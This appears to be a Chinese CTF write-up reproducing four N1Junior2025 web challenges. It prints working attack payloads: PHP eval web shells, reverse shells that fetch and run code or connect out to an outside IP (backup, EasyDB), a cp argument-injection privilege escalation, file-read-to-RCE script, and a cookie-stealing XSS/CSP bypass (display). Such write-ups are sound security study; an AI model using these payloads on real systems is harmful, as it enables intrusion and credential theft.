+++
title = "N1Junior2025"
slug = "n1junior2025"
description = "复现复现"
date = "2025-02-11T19:50:13"
lastmod = "2025-02-11T19:50:13"
image = ""
license = ""
categories = ["赛题"]
tags = ["xss", "go", "php", "h2"]
+++

由于没能参加比赛，以下题目均为复现

```
scp -r C:\Users\baozhongqi\Desktop\N1\* root@IP:/opt/docker
```

## backup

这道题没有Docker，所以我自己写一个，可能比较草率但是效果基本一致，不会差多少

---

日了，这个勾八一点都不好弄，我水平又比较低，但是我想到一个办法来达成浮现环境，就是利用虚拟机

```sh
sudo mkdir -p /var/www/html/primary/
sudo tee /var/www/html/primary/index.php <<EOF
<?php
\$cmd = \$_REQUEST["__2025.happy.new.year"];
eval(\$cmd);
?>
EOF

echo "flag{THIS_IS_YOUR_FLAG}" | sudo tee /flag
sudo chmod 600 /flag 

sudo tee /backup.sh <<'EOF'
#!/bin/bash
cd /var/www/html/primary
while :
do
    cp -P * /var/www/html/backup/
    chmod 755 -R /var/www/html/backup/
    sleep 15
done
EOF
sudo chmod +x /backup.sh

echo "@reboot root /backup.sh" | sudo tee -a /etc/crontab
sudo systemctl restart cron

sudo mkdir -p /var/www/html/backup
sudo chown -R www-data:www-data /var/www/html
sudo systemctl restart apache2
```

```
sudo /backup.sh
```

首先我们映入眼帘的肯定是一个eval，直接进行反弹shell

```
_[2025.happy.new.year=system("curl http://156.238.233.9/shell.sh|bash");
```



发现没有权限，并且看到一个backup.sh

```sh
#!/bin/bash
cd /var/www/html/primary
while :
do
    cp -P * /var/www/html/backup/
    chmod 755 -R /var/www/html/backup/
    sleep 15
done
```

我们来分析一下，`-P`使得不能进行软连接，即使软链接也没用，因为我们权限是不够的，在网上找了一下cp命令进行提权，发现出来的都是`suid`，果然官方文档才是最好用的

```
cp --help
  -H                           follow command-line symbolic links in SOURCE
```

这不是我们要的符号链接？既然他复制的是`*`，那我们直接创建一个`-H`的文件那么就多了这个参数，成功覆盖，

```
cd primary
touch -- -H
ln -s /flag Rflag
ls -al
cat /var/www/html/backup/Rflag
```



把环境给清理了

```sh
#!/bin/bash

echo "[+] 删除漏洞文件"
sudo rm -f /var/www/html/primary/index.php
sudo rm -rf /var/www/html/primary

echo "[+] 删除flag文件"
sudo rm -f /flag

echo "[+] 清理定时任务"
sudo sed -i '/@reboot root \/backup.sh/d' /etc/crontab
sudo systemctl restart cron

echo "[+] 删除备份脚本和目录"
sudo rm -f /backup.sh
sudo rm -rf /var/www/html/backup

echo "[+] 终止正在运行的备份进程"
sudo pkill -f '/backup.sh'

echo "[+] 权限恢复（可选）"
sudo chown -R root:root /var/www/html 2>/dev/null

echo "[!] 是否要卸载Apache和PHP? (y/N)"
read -r choice
if [ "$choice" = "y" ] || [ "$choice" = "Y" ]; then
    sudo apt remove -y apache2 php
    sudo apt autoremove -y
fi

echo "[√] 清理完成！建议重启系统：sudo reboot"
```

## Gavatar 

在`acvtar.php`里面发现了文件读取，其中路径为用户ID



还有一个重要文件就是`upload.php`了

```php
<?php
require_once 'common.php';

$user = getCurrentUser();
if (!$user) header('Location: index.php');

$avatarDir = __DIR__ . '/avatars';
if (!is_dir($avatarDir)) mkdir($avatarDir, 0755);

$avatarPath = "$avatarDir/{$user['id']}";

if (!empty($_FILES['avatar']['tmp_name'])) {
    $finfo = new finfo(FILEINFO_MIME_TYPE);
    if (!in_array($finfo->file($_FILES['avatar']['tmp_name']), ['image/jpeg', 'image/png', 'image/gif'])) {
        die('Invalid file type');
    }
    move_uploaded_file($_FILES['avatar']['tmp_name'], $avatarPath);
} elseif (!empty($_POST['url'])) {
    $image = @file_get_contents($_POST['url']);
    if ($image === false) die('Invalid URL');
    file_put_contents($avatarPath, $image);
}

header('Location: profile.php');
```

先随便上传一下可以看到，只要是满足文件类型的，就可以过，并且可以用url进行任意文件读取，

```
/upload.php

avatar=acvtar.jpg&url=file:///etc/passwd
```

只要上传了一个文件，并且文件是存在的就可以进行文件读取，其中得到这三个包





但是读不了flag，典型的任意文件读取到RCE，其中比较难得，就是要把cookie带上，

```python
    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()
        self.cookies = {'PHPSESSID': '41e87c5ceb4b151de6cbdee2745748c6'}

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """
        return self.session.post(self.url + "/upload.php", data={"avatar": "acvtar.jpg", "url": path},
                                 cookies=self.cookies)

    def send_response(self) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """
        return self.session.get(self.url + "/avatar.php?user=baozongwi", cookies=self.cookies)

    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        response = self.send(path)
        response = self.send_response()
        data = response.re.search(b"(.*)", flags=re.S).group(1)
        # print(data)
        return base64.decode(data)
```

这是我改的初步的，后面发现怎么搞都会报错，后来仔细看代码原来是



必须要在`elseif`里面才会触发，感冒头晕被绕了，😩，所以我们不要带`acvtar`参数就可以成功

```python
    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()
        self.cookies = {'PHPSESSID': '41e87c5ceb4b151de6cbdee2745748c6'}

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """
        return self.session.post(self.url + "/upload.php", data={"url": path}, cookies=self.cookies)

    def send_response(self) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """
        return self.session.get(self.url + "/avatar.php?user=baozongwi", cookies=self.cookies)

    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
        response = self.send(path)
        response = self.send_response()
        data = response.re.search(b"(.*)", flags=re.S).group(1)
        # print(data)
        return base64.decode(data)
```

直接执行命令

```
source py310/bin/activate

python3 3.py http://ctf.baozongwi.xyz:10001/ "echo '<?php @eval(\$_POST[1]);?>' > p2.php"

deactivate
```

302和200还是有区别的，虽然结果一样



## EasyDB

开局一个登录框，看看这个jar包里面的代码，直接搜索路由`/login`，然后发现包`challenge`，里面基本都是关键代码，看看



调用函数检查用户名



直接拼接语句，ohshit,那注入整起



黑名单是这些，



使用的是`h2`的数据库`jdbc:h2:mem:testdb`使用的是内存模式，可以进行堆叠注入，利用反射和拼接绕过，拿到`Runtime.exec`，`h2`的数据库可以利用`CREATE...CALL`来调用函数

```
username=admin';CREATE ALIAS test3 AS $$void jerry(String cmd) throws Exception{ String r="Run"+"time";Class<?> c = Class.forName("java.lang."+r);Object rt=c.getMethod("get"+r).invoke(null);c.getMethod("ex"+"ec",String.class).invoke(rt,cmd);}$$;CALL test3('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzI3LjI1LjE1MS40OC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}');--&password=admin
```

发现自己起Docker有问题，进去查一下

```
docker exec -it 88e30a916767 bash

docker stop 5345a6e08073 && docker rm 5345a6e08073
docker rmi easydb-web
docker compose up -d
```

发现根本就没有curl，弹shell的话只能用bash，常见的话，后面知道问题原来是java弹shell用base64，wu，原来这样，怪不得反序列化都写base64和计算器还有内存马

## display

```
docker build -t display .
docker run -d --name display_container -p 9999:3000 display
```

明天再打，好难受想睡觉了

---

来了，一看是个nodejs的应用，并且里面还有bot，就感觉是个xss了，从`index.js`得到参数为`text`，



可以看到会进行访问，但是他就是没过去，说明要绕过，回来看如何处理的这个`text`，



```js
document.addEventListener("DOMContentLoaded", function() {
    const textInput = document.getElementById('text-input');
    const insertButton = document.getElementById('insert-btn');
    const contentDisplay = document.getElementById('content-display');

    const queryText = getQueryParam('text');

    if (queryText) {
        const sanitizedText = sanitizeContent(atob(decodeURI(queryText)));

        if (sanitizedText.length > 0) {
            textInput.innerHTML = sanitizedText;             // 写入预览区
            contentDisplay.innerHTML = textInput.innerText;  // 写入效果显示区

            insertButton.disabled = false;    
        } else {
            textInput.innerText = "Only allow h1, h2 tags and plain text";
        }
    }
});
```

其中第一行`textInput.innerHTML = sanitizedText;`的调用会导致`h1`,`h2`标签仍然有效，而第二行`contentDisplay.innerHTML = textInput.innerText;`由于是获取的纯文本就会导致，如果我们是使用的编码绕过也会被当成是纯文本，最后达到xss的效果

> 用iframe嵌入子页面可以重新唤起DOM解析器解析script标签

这东西我之前写博客页面的时候用过，一个监控博客是否存活的东西，UptimeRobot，没想到这里也是用的这个

```
?text=JTNDSU1HJTIwU1JDPSUyMmphdmFzY3JpcHQuOmFsZXJ0KCdYU1MnKTslMjIlM0U=
```

发现成功了，那改一下payload绕过CSP就可以了

```js
const csp = "script-src 'self'; object-src 'none'; base-uri 'none';";
```

这过滤太狠了，得找其他东西，我们还有一个路由没有用，还有404界面，网上找到文章[404界面绕过CSP](https://www.justus.pw/writeups/sekai-ctf/tagless.html) 

```js
app.use((req, res) => {
  res.status(200).type('text/plain').send(`${decodeURI(req.path)} : invalid path`);
}); // 404 页面
```

纯文本返回可以进行任意内容构造，有点脏字符，注释掉就好了



所以写出payload，`iframe`结束标签可以省略

```
<iframe/srcdoc="<script/src='**/fetch(`http://156.238.233.9:9999/`+document.cookie)//'></script>">
```



```http
POST /report HTTP/1.1
Host: ctf.baozongwi.xyz:9999
Accept-Encoding: gzip, deflate
Origin: http://ctf.baozongwi.xyz:9999
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/json
Referer: http://ctf.baozongwi.xyz:9999/report
Content-Length: 43

{"text":"Jmx0O2lmcmFtZSZzb2w7c3JjZG9jJmVxdWFsczsmcXVvdDsmbHQ7c2NyaXB0JnNvbDtzcmMmZXF1YWxzOyZhcG9zOyZhc3Q7JmFzdDsmc29sO2ZldGNoJmxwYXI7JmdyYXZlO2h0dHAmY29sb247JnNvbDsmc29sOzE1NiZwZXJpb2Q7MjM4JnBlcmlvZDsyMzMmcGVyaW9kOzkmY29sb247OTk5OSZzb2w7JmdyYXZlOyZwbHVzO2RvY3VtZW50JnBlcmlvZDtjb29raWUmcnBhcjsmc29sOyZzb2w7JmFwb3M7Jmd0OyZsdDsmc29sO3NjcmlwdCZndDsmcXVvdDsmZ3Q7"}
```

